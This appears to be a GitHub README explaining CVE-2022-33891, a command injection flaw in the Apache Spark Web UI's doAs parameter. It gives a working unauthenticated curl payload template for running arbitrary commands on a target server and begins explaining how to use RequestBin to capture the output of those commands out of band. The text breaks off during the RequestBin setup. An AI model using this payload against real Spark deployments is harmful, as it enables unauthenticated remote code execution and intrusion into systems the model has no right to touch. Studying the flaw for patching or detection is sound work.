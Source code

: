 ## CVE-2022-33891

[Apache Spark](https://spark.apache.org) is an open-source, distributed processing system used for big data workloads and it utilizes in-memory caching, and optimized query execution for fast analytic queries.
Apache Spark also provides a suite of web user interfaces (UI) that you can use to monitor the status and resource consumption of your Spark cluster.

Past week, there was found a new vulnerability inside the Apache Spark Web UI component: a shell command injection vulnerability. This vulnerability affects the ```?doAs``` parameter, allowing an unauthenticated attacker to execute commands on the target system.
The command injection occurs because Spark checks the group membership of the user passed in the ```?doAs``` parameter by using a raw Linux command.

The payload is pretty simple, you need to specify a command to run between the '`' characters, using the ```doAs``` parameter.

```
curl -X "GET" http://<IP>:8080/?doAs=`<command_to_execute>`
```

The backtick is the start of an instruction to bash to evaluate what you type as a command. Everything you type between backticks (`) is evaluated  by the shell before the main command and the output of that execution is used by that command, just as if you'd type that output at that place in the command line.
So, the command between the backticks inside the URL will be firstly intepreted by our shell and then by the target shell.

To read the output of the command and to check if that command was executed on the vulnerable server, we will send a request to [RequestBin](https://requestbin.io).
[RequestBin](https://requestbin.io) gives you a URL that will collect requests made to it and let you inspect them in a human-friendly way.

You need just to create a subdomain by using the Create a RequestBin button:

<img src="./assets/requestbin.png" width=600 height=300>
